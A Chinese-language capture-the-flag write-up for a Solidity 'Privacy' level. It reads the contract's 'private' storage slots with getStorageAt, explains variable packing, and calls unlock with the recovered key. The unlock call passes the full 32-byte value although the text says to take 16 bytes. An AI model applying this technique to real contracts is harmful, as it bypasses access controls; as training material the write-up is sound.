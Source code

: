 ## 0x01 Task

```javascript
pragma solidity ^0.4.18;

contract Privacy {

  bool public locked = true;
  uint256 public constant ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  function Privacy(bytes32[3] _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

## 0x02 Solution

先按照`Vault`题目的思路，把`private`的数据读出来：

```javascript
web3.eth.getStorageAt(contract.address, 0, function(x, y) {alert(y)});
// 0x000000000000000000000000000000000000000000000000000000fbbbff0a01
web3.eth.getStorageAt(contract.address, 1, function(x, y) {alert(y)});
// 0x6f396091d021e1f8bcaa20b7ddee0f5d9a29812cba18da57c4f8d14cfa9db557
web3.eth.getStorageAt(contract.address, 2, function(x, y) {alert(y)});
// 0x874250db8f2de50c3e45833b8b787acc995739a58c2fbee736b3e843f3f46bdb
web3.eth.getStorageAt(contract.address, 3, function(x, y) {alert(y)});
// 0x41c6d2d9a50bbea305fbbd3709be8b7a0159fd9656ad79c7e3c99c43bbc7577e
web3.eth.getStorageAt(contract.address, 4, function(x, y) {alert(y)});
// 0x0000000000000000000000000000000000000000000000000000000000000000
```

每一个存储位是32个字节，根据Solidity的优化规则，当变量所占空间小于32字节时，会与后面的变量共享空间（如果加上后面的变量也不超过32字节的话）

- `bool public locked = true` 占 1 字节 -> `01`
- `uint8 private flattening = 10` 占 1 字节 -> `0a`
- `uint8 private denomination = 255` 占 1 字节 -> `ff`
- `uint16 private awkwardness = uint16(now)` 占 2 字节 -> `fbbb`

对应第一个存储位`fbbbff0a01`

则解题需要的`data[2]`就应该在第四存储位`0x41c6d2d9a50bbea305fbbd3709be8b7a0159fd9656ad79c7e3c99c43bbc7577e`

注意有bytes16转换，取前16个字节即可

```javascript
await contract.unlock("0x41c6d2d9a50bbea305fbbd3709be8b7a0159fd9656ad79c7e3c99c43bbc7577e")
```

